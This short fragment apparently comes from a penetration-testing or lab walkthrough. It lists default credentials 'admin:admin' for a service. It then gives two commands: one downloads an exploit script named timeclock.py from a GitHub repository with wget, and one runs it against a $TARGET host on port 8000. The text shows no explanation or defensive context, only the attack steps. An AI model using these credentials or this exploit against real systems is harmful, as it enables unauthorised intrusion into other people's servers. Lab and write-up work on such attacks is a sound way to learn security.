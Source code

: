 Default creds admin:admin
```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```
```
python timeclock.py $TARGET 8000
```
